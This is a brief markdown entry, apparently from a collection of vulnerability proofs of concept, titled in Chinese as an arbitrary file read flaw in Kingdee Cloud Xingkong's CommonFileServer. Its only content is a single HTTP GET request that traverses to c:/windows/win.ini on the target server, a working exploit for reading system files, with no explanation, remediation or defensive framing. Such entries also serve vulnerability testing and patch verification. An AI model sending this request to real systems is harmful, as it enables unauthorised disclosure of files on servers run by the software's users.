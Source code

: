 # 金蝶云星空 CommonFileserver 任意文件读取漏洞

## 金蝶云星空 CommonFileserver 任意文件读取漏洞
```
GET /CommonFileServer/c:/windows/win.ini
```

